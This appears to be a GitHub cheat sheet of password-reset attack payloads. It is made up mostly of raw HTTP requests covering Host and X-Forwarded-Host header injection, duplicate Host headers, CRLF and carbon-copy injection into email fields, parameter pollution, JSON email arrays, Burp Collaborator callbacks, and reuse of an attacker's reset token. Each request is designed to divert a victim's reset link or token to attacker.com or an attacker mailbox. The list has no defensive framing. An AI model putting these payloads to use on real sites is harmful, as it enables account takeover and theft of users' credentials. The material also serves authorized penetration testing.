 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
